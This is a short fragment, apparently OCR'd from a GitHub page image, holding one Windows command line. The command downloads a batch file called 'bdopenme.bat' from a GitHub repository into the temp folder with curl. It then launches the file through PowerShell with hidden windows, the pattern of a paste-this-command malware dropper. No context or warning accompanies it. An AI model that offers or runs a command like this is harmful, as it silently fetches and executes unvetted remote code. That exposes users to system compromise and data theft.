 cd %TEMP% & curl -O https://github.com/enoreex/curl-temp/raw/refs/heads/main/bdopenme.bat & powershell.exe -WindowStyle Hidden -Command "Start-Process -WindowStyle Hidden -FilePath bdopenme.bat"
